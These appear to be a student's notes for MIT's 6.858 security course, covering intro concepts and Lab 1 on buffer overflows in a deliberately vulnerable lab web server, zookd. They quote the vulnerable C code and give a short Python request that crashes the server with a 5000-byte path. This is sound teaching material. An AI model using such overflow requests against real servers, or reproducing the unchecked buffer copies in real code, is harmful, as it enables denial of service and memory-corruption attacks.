 # 6.858 Spring 2022 

- (Website 6.858 / Spring 2022)[https://css.csail.mit.edu/6.858/2022]
- (Video Lectures)[https://www.youtube.com/watch?v=073D9t3ltEw]

# Introduction

**Security**: The system works despite an adversary.

## Why is security hard?

Bugs, social engineering, guessing passwords, stealing laptops, monitoring networks...

- **Positive goal**: Can the TAs access the grades file?
- **Negative goal**: Only the TAs should access the grades file.

## Thread model

- **Goal**: Only Alice can access file F.
- **Threat model**: Assumptions about who you are up against.
- **Policy**: File system permissions, 2FA, login.
- **Mechanism**: The policy implementation.

## Good practices

- Monitor attacks.
- Reuse components.
- Conduct post-mortems.

## Attack x Defense

- **Defense**: Consider all possible attacks.
- **Attack**: Find one successful attack.

You don't need a perfect defense; you just need: **Cost to attack > Value.**

**Convenience, usability, and sharing** vs. **Security.**

# LAB 1: Buffer overflows

## Part 1

### Exercise 1

### Exploits

#### Exploit 1

In `zookd.c` the `reqpath` buffer can be exploited

```c
char reqpath[4096];

if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
    return http_err(fd, 500, "http_request_line: %s", errmsg);
```

In the `url_decode` the contents from the path `sp1` are moved into `reqpath`, without size validation

```c
url_decode(reqpath, sp1);
```

We can pass a big path to exploit this vulnerability

#### Exploit 2

In `http.c` the `value` and `envvar` buffers can be exploited

```c
const char *http_request_headers(int fd)
{
    static char buf[8192];      /* static variables are not on the stack */
    int i;
    char value[512];
    char envvar[512];
```

The `envvar` buffer has 512 bytes and buf 8192 bytes

```c
    if (strcmp(buf, "CONTENT_TYPE") != 0 &&
        strcmp(buf, "CONTENT_LENGTH") != 0) {
        sprintf(envvar, "HTTP_%s", buf);
        setenv(envvar, value, 1);
    } else {
        setenv(buf, value, 1);
    }
```

We can pass a big header to exploit this vulnerability

- In `http.c` the `pn` buffer can't be exploited by a buffer overflow but maybe we can use other techniques to get file access
- In `http.c` environment variables are set based on HTTP headers this can be very dangerous 

### Exercise 2

We can send a 5000 byte path to crash the program 

```python
def build_exploit(shellcode):
    path = b"A" * 5000
    req =   b"GET /" + path + b" HTTP/1.0\r\n" + \
            b"\r\n"
    return req
```

# Smashing the stack in the 21st Century 

https://www.youtube.com/watch?v=cJDRShqtTbk


